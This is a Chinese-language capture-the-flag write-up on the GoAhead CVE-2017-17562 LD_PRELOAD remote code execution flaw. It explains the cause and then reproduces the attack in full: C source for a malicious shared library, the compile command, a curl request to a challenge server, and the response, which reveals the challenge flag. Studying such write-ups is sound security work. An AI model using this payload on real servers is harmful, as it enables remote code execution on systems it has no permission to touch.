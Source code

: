 

# GOGOGO

## 0x01 GoAhead CVE-2017-17562

实际上腾讯的[“开源Web服务器GoAhead漏洞CVE-2017-17562分析“](https://slab.qq.com/news/tech/1701.html) 一文已经对此漏洞进行了详细解释，这里只概括的说一下：

1. 因为cgiHandler的过滤不当，导致LD_PRELOAD变量可控，而程序会读取LD_PRELOAD变量记录的文件路径并且执行文件代码；
2. launchCgi函数调用系统函数dup2()将stdin文件描述符指向了POST请求数据对应的临时文件。

从发送payload的命令可以看到，我们的POST中控制了两个输入，一个是LOAD_PRELOAD参数（将它设置为了/proc/self/fd/0），一个是POST的data（将它设置为了我们编译生成的动态链接库）。/proc/self/fd/0 是Linux的伪文件系统文件，实际上指的是stdin，以下命令的执行结果可以说明这一点：

![1538571783966](../../blog/goahead364/goahead.assets/1538571783966.png)

这样结合第一条，即程序会从我们标准输入中取代码执行，又因为第二条，我们的标准输入被定向到了POST的临时文件中，具体来说，即定向到了我们的payload.so文件上，这样整个原理就走通了。

## 0x02 复现CVE

准备payload

```c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

static void before_main(void) __attribute__((constructor));
static void before_main(void) {
    /* printf("hello, payload executed.\n"); */
    system("cat /var/www/goahead/cgi-bin/hello.cgi");

}
```

编译
```bash
$ gcc -shared -fPIC ./payload.c -o payload.so
```

触发payload

```bash
$ curl -X POST --data-binary @payload.so http://114.55.36.69:8018/cgi-bin/hello.cgi?LD_PRELOAD=/proc/self/fd/0 -i
HTTP/1.1 200 OK
Server: GoAhead-http
Date: Fri Oct 12 13:38:48 2018
Transfer-Encoding: chunked
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
Pragma: no-cache
Cache-Control: no-cache
#!/usr/bin/perl
print "Content-Type: text/html\n\n";
print "Hello GOGOGO";
#flag{ef9f1f880e1f001bedd32bfc52674128}
#!/usr/bin/perl

curl: (56) Illegal or missing hexadecimal sequence in chunked-encoding
```
